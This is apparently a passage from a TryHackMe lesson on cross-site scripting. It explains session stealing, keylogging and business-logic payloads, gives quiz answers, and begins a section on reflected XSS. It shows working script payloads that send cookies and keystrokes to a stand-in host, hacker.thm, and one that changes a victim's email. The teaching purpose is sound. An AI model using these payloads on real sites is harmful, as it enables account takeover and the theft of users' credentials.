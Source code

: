 
Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>


Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:


<script>user.changeEmail('attacker@hacker.thm');</script>


Now that the email address for the account has changed, the attacker may perform a reset password attack.


The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.


Which document property could contain the user's session token?
*document.cookie*

Which JavaScript method is often used as a Proof Of Concept? *alert*

### Reflected XSS 

Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.


Example Scenario:

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source. 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)
